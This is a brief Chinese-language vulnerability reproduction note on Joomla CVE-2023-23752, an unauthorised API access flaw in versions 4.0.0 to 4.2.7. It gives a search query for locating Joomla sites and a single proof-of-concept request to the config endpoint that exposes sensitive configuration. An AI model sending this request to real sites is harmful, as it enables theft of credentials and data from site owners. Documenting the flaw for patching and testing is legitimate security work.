 # 

# Joomla application 未授权访问漏洞 CVE-2023-23752

## 漏洞描述

Joomla 存在未授权访问漏洞，攻击者通过覆盖 public 值绕过限制，访问部分API获取敏感数据

## 漏洞影响

```
Joomla 4.0.0 - 4.2.7
```

## 网络测绘

```
app="Joomla"
```

## 漏洞复现

登陆页面

![image-20230313171122485](images/image-20230313171122485.png)

验证POC

```
/api/index.php/v1/config/application?public=true
```

![image-20230313171136037](images/image-20230313171136037.png)
